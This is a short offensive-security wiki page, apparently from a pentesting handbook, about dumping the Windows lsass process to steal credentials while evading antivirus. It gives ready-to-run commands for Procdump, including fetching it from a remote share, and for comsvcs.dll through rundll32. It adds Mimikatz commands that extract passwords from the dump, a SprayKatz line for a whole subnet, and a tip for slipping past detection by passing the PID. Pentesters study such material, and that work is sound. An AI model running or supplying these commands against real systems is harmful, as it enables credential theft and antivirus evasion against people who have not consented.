 ## Bypassing AV

### Procdump + Mimikatz

As **Procdump from** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**is a legitimate Microsoft tool**, it's not detected by Defender.   
You can use this tool to **dump the lsass process**, **download the dump** and **extract** the **credentials locally** from the dump.

{% code title="Dump lsass" %}
```bash
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
{% endcode %}

{% code title="Extract credentials from the dump" %}
```c
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```
{% endcode %}

This process is done automatically with [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Note**: Some **AV** may **detect** as **malicious** the use of **procdump.exe to dump lsass.exe**, this is because they are **detecting** the string **"procdump.exe" and "lsass.exe"**. So it is **stealthier** to **pass** as an **argument** the **PID** of lsass.exe to procdump **instead o**f the **name lsass.exe.**

### Dumping lsass with **comsvcs.dll**

There’s a DLL called **comsvcs.dll**, located in `C:\Windows\System32` that **dumps process memory** whenever they **crash**. This DLL contains a **function** called **`MiniDumpW`** that is written so it can be called with `rundll32.exe`.  
The first two arguments are not used, but the third one is split into 3 parts. First part is the process ID that will be dumped, second part is the dump file location, and third part is the word **full**. There is no other choice.  
Once these 3 arguments has been parsed, basically this DLL creates the dump file, and dumps the specified process into that dump file.  
Thanks to this function, we can use **comsvcs.dll** to dump lsass process instead of uploading procdump and executing it. \(This information was extracted from [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)\)

```text
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```
